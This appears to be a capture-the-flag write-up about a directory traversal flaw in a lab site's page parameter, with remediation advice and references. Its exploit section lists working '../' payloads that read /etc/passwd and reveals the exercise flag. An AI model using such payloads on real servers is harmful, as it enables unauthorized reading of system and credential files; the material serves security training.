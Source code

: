 # Breach: Directory Traversal via Page Parameter

## Discovery & Exploit

The website uses a query parameter to load pages:

``?page=XXX``

This pattern is commonly vulnerable to **directory traversal**, which allows access to arbitrary files on the server.

We tested for this by attempting to access the UNIX password file `/etc/passwd`, incrementally increasing the traversal depth:

- `?page=../etc/passwd` → Response: “Wtf ?”
- `?page=../../etc/passwd` → “Wrong..”
- `?page=../../../etc/passwd` → “Nope..”
- `?page=../../../../etc/passwd` → “Almost.”
- `?page=../../../../../etc/passwd` → “Still nope..”
- `?page=../../../../../../etc/passwd` → “Nope..”
- `?page=../../../../../../../etc/passwd` →  
→ **Success**, response:  
`Congratulation!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0`

## Vulnerability Details

This is a **Path Traversal Attack**, where an attacker manipulates file paths to access restricted files outside the intended web root.

This is often possible when:

- User input is concatenated into file paths without sanitization
- The application does not restrict or validate path traversal characters (`../`)

References:

- https://owasp.org/www-community/attacks/Path_Traversal
- https://portswigger.net/web-security/file-path-traversal

## Remediation

1. Normalize and sanitize all user-supplied file paths.
2. Use a strict whitelist of allowed pages/files.
3. Avoid including user input directly in filesystem paths.
4. Run web applications with limited file system permissions.
5. Log and alert on unusual file access attempts.

---

<table width="100%">
  <tr>
    <td align="left"><a href="../Breach10_*/Ressources/writeup.md">← Previous: Breach10</a></td>
    <td align="center"><a href="../../README.md">↑ Back to README</a></td>
    <td align="right"><a href="../Breach12_*/Ressources/writeup.md">Next: Breach12 →</a></td>
  </tr>
</table>